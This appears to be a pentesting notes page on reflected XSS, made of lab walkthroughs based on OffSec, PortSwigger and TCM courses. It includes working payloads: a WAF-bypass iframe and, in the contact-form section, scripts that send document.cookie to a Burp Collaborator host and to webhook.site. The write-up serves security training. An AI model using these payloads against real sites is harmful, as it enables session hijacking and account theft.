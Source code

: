 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Reflected

{% hint style="info" %}
Reflected XSS occurs when malicious scripts are reflected off a web server, executed immediately, and displayed in the user's browser, typically via URL parameters or form inputs.
{% endhint %}

{% hint style="danger" %}
This can lead to unauthorized actions, data theft, or redirection to malicious sites, as the script runs in the context of the trusted website.
{% endhint %}

## Reflected Server XSS

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

This type of XSS is often found in `GET` requests and is based on the fact that the user trusts the domain. The app below has a search functionality where the search term is passed through a `GET` request and the `s` parameter. It is also reflected in the page via a `div` element (Figure 1).

<figure><img src="../../../../.gitbook/assets/offsec_xss_rs1.png" alt=""><figcaption><p>Figure 1: Searching for potential XSS entry points.</p></figcaption></figure>

A good starting point for finding XSS, is to first test for HTML injection. The latter has less potential for error, however, being able to inject HTML doesn't guarantee an XSS vulnerablity (Figure 2).

<figure><img src="../../../../.gitbook/assets/offsec_xss_rs2.png" alt=""><figcaption><p>Figure 2: Testing for HTML injection.</p></figcaption></figure>

Since the app is vulerable to HTML injection, we can proceed testing for XSS (Figure 3).

```javascript
<script>prompt("XSS")</script>
```

<figure><img src="../../../../.gitbook/assets/offsec_xss_rs3.png" alt=""><figcaption><p>Figure 3: Testing for XSS.</p></figcaption></figure>

If we find a way for our target to click the link that includes the payload, it will be executed on their browser.

```html
search.com/search.php?s=%3Cscript%3Eprompt%28%22XSS%22%29%3C%2Fscript%3E
```

We can confirm that the server initiated the appending of the payload the to document by intercepting the request. The client executed the payload, but did not append it.\


<figure><img src="../../../../.gitbook/assets/offsec_xss_rs4.png" alt=""><figcaption><p>Figure 4: Confirming the server-side reflected XSS.</p></figcaption></figure>

## Filter Bypass

> _The example below is based on PortSwigger's_ [_Reflected XSS into HTML context with most tags and attributes blocked_](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked) _lab._

In this web application, there is a search functionality and the search term is reflected back into the page within HTML tags (Figure 1).

<figure><img src="../../../../.gitbook/assets/web_reflected_xss_1.png" alt=""><figcaption><p>Figure 1: Identifying where our input is reflected.</p></figcaption></figure>

When our payload is inside HTML tags, we can simply add new HTML tags to trigger it. It seems that there is a WAF[^1] blocking specific tags (Figure 2).

<figure><img src="../../../../.gitbook/assets/web_reflected_xss_2.png" alt=""><figcaption><p>Figure 2: Common JavaScript tags seem to be blocked by a WAF.</p></figcaption></figure>

We can create a tag wordlist using PortSwigger's [XSS Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet), and fuzz the application to see which tags are allowed (Figure 3).

<figure><img src="../../../../.gitbook/assets/web_reflected_xss_3.png" alt=""><figcaption><p>Figure 3: Fuzzing JavaScript tags with Burp's Intruder.</p></figcaption></figure>

Trying the `<body>` tag results in another verbose error message (Figure 4).

<figure><img src="../../../../.gitbook/assets/web_reflected_xss_4.png" alt=""><figcaption><p>Figure 4: Another verbose error message informing us about a blacklisted attribute.</p></figcaption></figure>

We can repeat the same process and enumerate allowed attributes (Figure 5).

<figure><img src="../../../../.gitbook/assets/web_reflected_xss_5.png" alt=""><figcaption><p>Figure 5: Fuzzing JavaScript attributes with Burp's Intruder.</p></figcaption></figure>

Now, all we have to do is delivering our XSS payload to the victim via the exploit server (Figure 6).

{% code overflow="wrap" %}
```javascript
<iframe src="https://0a64008c03c63be4804ada980065007b.web-security-academy.net/?search=%3Cbody+onresize%3Dprint%28%29%3E" onload=this.style.width='1em'>
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/web_reflected_xss_6.png" alt=""><figcaption><p>Figure 6: Delivering the exploit to the victim via an <code>iframe</code>.</p></figcaption></figure>

## Within JS

> _The example below is based on PortSwigger's_ [_Reflected XSS into a JavaScript string with angle brackets HTML encoded_](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded) _lab._

This time the search keyword ends up within a block of JS[^2] code (Figure 7).

<figure><img src="../../../../.gitbook/assets/web_xss_reflected_7.png" alt=""><figcaption><p>Figure 7: Identifying the context of a potential XSS flaw.</p></figcaption></figure>

We can treat this similar to an [SQLi](../sqli/) flaw and try injecting JS[^3] code to the search keyword (Figure 8).

<figure><img src="../../../../.gitbook/assets/web_xss_reflected_8.png" alt=""><figcaption><p>Figure 8: Achieving XSS via JavaScript Injection.</p></figcaption></figure>

## Contact Form

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

This application has a Support Ticket functionality and we also have access to an admin account that will review the submitted ticket. To test for stored XSS will use FireFox's [Multi-Account Containers](../../authorization/automated-a-b-testing.md#multi-account-containers) (Figure 9).

<figure><img src="../../../../.gitbook/assets/web_xss_stored_cookie_1.png" alt=""><figcaption><p>Figure 9: Setting up FireFox's containers for XSS testing.</p></figcaption></figure>

We will a web server, such as Burp's Collaborator (available only in Pro) or [Webhook](https://webhook.site/) (free), to receive the request along with the admin's cookie (Figure 10 & 11).

{% code overflow="wrap" %}
```javascript
// collaborator payload
<script>
fetch('https://705jjd45qk9l1pb4rhns097xgomfa5yu.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>

// webhook payload
<script>var i = new Image; i.src="https://webhook.site/094ef770-e736-4b31-a3cb-34be690ff1b9/?"+document.cookie</script>
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/web_xss_stored_cookie_collaborator.png" alt=""><figcaption><p>Figure 10: Using Burp's Collaborator to steal the admin's cookie.</p></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/web_xss_stored_cookie_webhook.png" alt=""><figcaption><p>Figure 11: Figure 10: Using Webhook to steal the admin's cookie.</p></figcaption></figure>

[^1]: Web Application Firewall

[^2]: JavaScript

[^3]: JavaScript

